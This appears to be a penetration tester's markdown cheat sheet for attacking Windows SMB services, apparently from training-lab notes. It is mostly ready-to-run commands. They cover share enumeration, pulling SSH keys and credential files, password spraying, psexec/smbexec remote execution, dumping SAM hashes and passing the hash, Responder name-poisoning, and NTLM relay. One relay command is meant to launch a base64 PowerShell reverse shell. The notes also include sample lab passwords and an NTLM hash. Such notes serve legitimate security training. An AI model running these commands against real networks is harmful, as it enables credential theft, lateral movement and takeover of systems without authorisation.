 ```yaml
---
title: "Attacking Common Services — SMB"
tags: [attacking-common-services, smb, lateral-movement, forced-auth, relay]
tools: [nmap, smbclient, smbmap, crackmapexec, rpcclient, enum4linux, responder, impacket, bloodhound, hashcat]
---
```


# SMB

## Summary
Exposed shares often contain plaintext secrets, SSH keys, backups, or configuration files. SMB supports many offensive techniques: share enumeration, credential reuse, remote command execution (psexec/smbexec), NetNTLM capture (forced auth), NTLM relay, and exploitation of protocol vulnerabilities (e.g., SMBGhost). Prioritize read-only shares first — they’re low risk and high reward.

---

## Discovery & Enumeration
- Scan hosts for SMB (445/tcp) and NetBIOS (137/138/139):
```bash
nmap -p445,139,137 --script smb-enum-shares,smb-os-discovery <target>
```
- Quick share listing with `smbclient`:
```bash
smbclient -N -L //<target>
```
- Authenticated enumeration with `smbmap` to check permissions and quickly pull files:
```bash
smbmap -H <target>
smbmap -u simon -p liverpool -H <target> -r Home --no-banner

# rpcclient
rpcclient -U'%' 10.129.203.6
rpcclient $> enumdomusers
user:[jason] rid:[0x3e8]
user:[robin] rid:[0x3e9]

# enum4linux
./enum4linux-ng.py 10.10.11.45 -A -C
```
- `enum4linux` / `enum4linux-ng` for a broad set of SMB/NetBIOS checks.

---

## File Operations
- Download files for local analysis:
```bash
smbmap -H <target> --download "Share\path\file"
# or
smbclient \\\\target\\Share -U user%pass -c 'lcd /tmp; get file'

# Download | upload a file
smbmap -H $htb --download "GGJ\id_rsa"
smbmap -u jason -p '34c8zuNBo91!@28Bszh' -H 10.129.203.6 --download "GGJ\id_rsa"
smbmap -H $htb --upload test.txt "GGJ\test.txt"
```
- Look for filenames: `creds.txt`, `passwords.txt`, `id_rsa`, `backup*.zip`, `*.sql`, `*.mdb`, `*.pst`.

---

## Password Attacks & Spraying
- Password spraying with CrackMapExec avoids immediate lockouts:
```bash
crackmapexec smb <target> -u users.txt -p 'Summer2024!' --local-auth
```
- Brute forcing (use sparingly and slowly): Hydra / Medusa can target SMB (or netbios auth surface).

---

## Remote Code Exec / Lateral Tools
- Impacket `psexec.py` / `smbexec.py` / `atexec.py` for command execution if valid creds exist:
```bash
# psexec
python3 /usr/share/impacket/examples/psexec.py DOMAIN/Administrator@<target> -hashes :NTLM_HASH

# smbexec
crackmapexec smb <target> -u Admin -p 'Passw0rd' --exec-method smbexec -x 'whoami'

# Impacket - smbexec or atexec
impacket-psexec administrator:'liverpool'@10.129.203.6

# Crackmap
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

# Enumerate users
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

# Extract hashes & PtH
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```
- `wmiexec.py` and `smbexec.py` are useful alternatives when SMB exec methods fail.

---

## Forced Authentication (NetNTLM Capture)
- Use `Responder` to capture NetNTLM v1/v2 hashes in LLMNR/NBNS/MDNS/SMB name resolution poisoning scenarios:
```bash
sudo responder -I eth0
# logs saved to /usr/share/responder/logs/
```
- Use `ntlmrelayx.py` (Impacket) to relay captured NetNTLM auth to target services (SMB, HTTP, LDAP) or to spawn a shell:
```bash
impacket-ntlmrelayx -t smb://<target> --no-daemon
```
- Crack captured hashes with `hashcat` (mode 5600 for NTLMv2):
```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## NTLM Relay & RCE
- Relay captured NTLM auth to a target that accepts NTLM (often SMB, but also HTTP/LDAP) to escalate access.
- Example: disable SMB signing (if allowed) to improve relay success; check for SMB signing requirement via `smbclient` or `nmap` scripts.
- `impacket-ntlmrelayx` supports running a command or dropping a payload via SMB after successful relay.

PowerShell reverse shell using https://www.revshells.com/, Powershell #3 (Base64).

```bash
# Turn off smb in responder
cat /etc/responder/Responder.conf | grep 'SMB ='
SMB = Off

# Execute reverse shell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e'
```

---

## Known Vulnerabilities
- CVE-2020-0796 — SMBGhost (SMBv3 compression vulnerability) — wormable RCE on certain unpatched Windows versions.
- Keep Windows patched; legacy SMBv1 should be disabled.

---

## Quick Cheatsheet
```bash
# Scan and enumerate
nmap -p445 --script smb-enum-shares,smb-enum-users <target>

# List shares
smbclient -L //<target> -N

# Authenticated enum and download
smbmap -u simon -p liverpool -H <target> --download "Home\\IT\\creds.txt"

# Spray
crackmapexec smb <target> -u users.txt -p 'Password123!' --local-auth

# Start responder
sudo responder -I eth0

# Relay example
impacket-ntlmrelayx -t smb://<target> -smb2support --no-http
```

